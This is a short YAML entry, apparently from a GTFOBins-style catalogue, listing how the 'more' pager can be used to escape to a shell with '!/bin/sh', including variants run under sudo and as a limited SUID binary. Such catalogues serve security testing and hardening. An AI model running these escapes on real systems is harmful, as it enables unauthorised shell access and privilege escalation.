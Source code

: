 ```yaml
---
functions:
  exec-interactive:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  sudo-enabled:
    - code: |
        TERM= sudo -E more /etc/profile
        !/bin/sh
  suid-limited:
    - code: |-
        TERM= ./more /etc/profile
        !/bin/sh
---
```

